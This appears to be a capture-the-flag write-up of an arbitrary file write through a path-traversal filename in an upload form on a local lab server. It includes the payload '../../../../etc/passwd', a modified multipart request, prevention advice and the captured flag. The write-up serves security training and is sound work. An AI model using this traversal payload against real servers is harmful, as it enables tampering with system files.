 ## Breach 06 – Arbitrary File Write via Insecure Upload Mechanism

**Vulnerability:**  
The file upload functionality allows directory traversal through the `filename` field, enabling unauthorized writes to arbitrary locations on the server's filesystem.

**OWASP Top 10 Mapping:**  
**A05:2021 – Security Misconfiguration**  
This includes improper file handling, lack of upload sanitization, and insecure path resolution.

**Exploitation:**  
- Navigated to the upload page:
  ```
  http://127.0.0.1:8000/?page=upload
  ```
- Uploaded a small, valid image file and intercepted the HTTP request.
- Modified the `filename` field in the multipart payload to perform path traversal:
  ```
  ../../../../etc/passwd
  ```
- Ensured that the file content was still a valid JPEG header (to pass client-side checks).
- Sent the modified request:
  ```http
  POST /?page=upload HTTP/1.1
  Host: 127.0.0.1:8000
  ...
  Content-Disposition: form-data; name="uploaded"; filename="../../../../etc/passwd"
  Content-Type: image/jpeg
  ```
- The server accepted the file and returned a flag in response.

**Prevention:**  
- Sanitize filenames on the server side and reject any path traversal sequences (e.g., `../`).
- Store uploaded files using randomized server-side filenames, ignoring user-supplied names.
- Limit upload destinations and enforce strict MIME type checks and file extension validation.
- Run the web server with restricted file system permissions to minimize impact.

**Flag:**  
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8